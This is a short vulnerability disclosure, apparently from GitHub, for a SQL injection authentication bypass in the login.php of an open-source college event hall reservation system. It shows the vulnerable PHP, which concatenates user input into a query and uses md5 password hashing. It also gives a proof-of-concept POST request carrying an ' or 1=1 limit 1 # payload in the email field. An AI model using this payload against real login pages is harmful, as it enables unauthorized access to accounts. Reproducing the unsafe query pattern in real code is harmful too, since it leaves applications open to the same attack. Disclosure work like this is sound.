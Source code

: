 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - SQL Injection Auth Bypass login.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /login.php

## Code
```php
  if(isset($_POST['user'])){
                $email=$_POST['email'];
                $password=$_POST['password'];
                $password=md5($password);
                $email=$email.'@sairam.edu.in';
                $sql="SELECT * FROM tbl_user WHERE user_email='$email' AND user_password='$password'";
                $res=mysqli_query($conn,$sql);
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /login.php HTTP/1.1
Host: [REDACTED]
Content-Type: application/x-www-form-urlencoded
Content-Length: 69

email=NoChizPlz%27+or+1%3D1+limit+1+%23&password=NoChizPlz&user=Login
```

## Screenshot

